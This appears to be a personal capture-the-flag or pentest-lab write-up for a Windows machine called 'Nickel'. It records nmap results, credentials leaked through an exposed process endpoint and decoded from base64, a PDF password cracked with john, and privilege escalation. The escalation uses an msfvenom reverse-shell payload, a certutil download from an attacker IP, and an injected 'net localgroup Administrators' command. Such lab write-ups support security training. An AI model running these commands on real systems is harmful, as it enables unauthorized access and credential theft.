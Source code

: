 # Nickel
# date 20/8/2023
# ip 192.168.172.99

hardcoded ssh creds found on web dev tool >> ftp pdf file found in ftp folder >> cracked by john >> found cmd endpoint ad administrator >> user added to administrator group >> refresh ssh session >> got flag 

# nmap
PORT     STATE SERVICE       REASON  VERSION
21/tcp   open  ftp           syn-ack FileZilla ftpd
22/tcp   open  ssh           syn-ack OpenSSH for_Windows_8.1 (protocol 2.0)
80/tcp   open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
8089/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)




curl -d "" -X POST http://192.168.172.99:33333/list-running-procs
name        : cmd.exe
commandline : cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p 
              "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh

echo "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" | base64 -d 

got ssh creds

ariah:NowiseSloopTheory139


systemctl start ssh.socket 

scp ariah@192.168.172.99:C:/ftp/Infrastructure.pdf . 
ariah4168        (Infrastructure.pdf)     
Password “ariah4168” is recovered. Let’s open the file.

Let’s try and use the command endpoint.

# priv esc
ariah@NICKEL C:\Users\ariah>curl http://localhost/?whoami
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.190 LPORT=80 -f exe > shell.exe
certutil.exe -urlcache -split -f "http://192.168.45.190:8080/shell.exe" 

ariah@NICKEL C:\Users\ariah>curl http://localhost/?cmd /c dir c:\users\ariah\
ariah@NICKEL C:\Users\ariah>curl http://localhost/?cmd%20%2Fc%20dir%20c%3A%5Cusers%5Cariah%5C
ariah@NICKEL C:\Users\ariah>curl http://localhost/?cmd%20%2Fc%20dir%20c%3A%5Cusers%5Cariah%5Cshell.exe



# works
$Resp = Invoke-WebRequest 'http://nickel/?net localgroup Administrators ariah /add' -UseBasicParsing

$Resp.RawContent

PS C:\Users\ariah> net localgroup Administrators


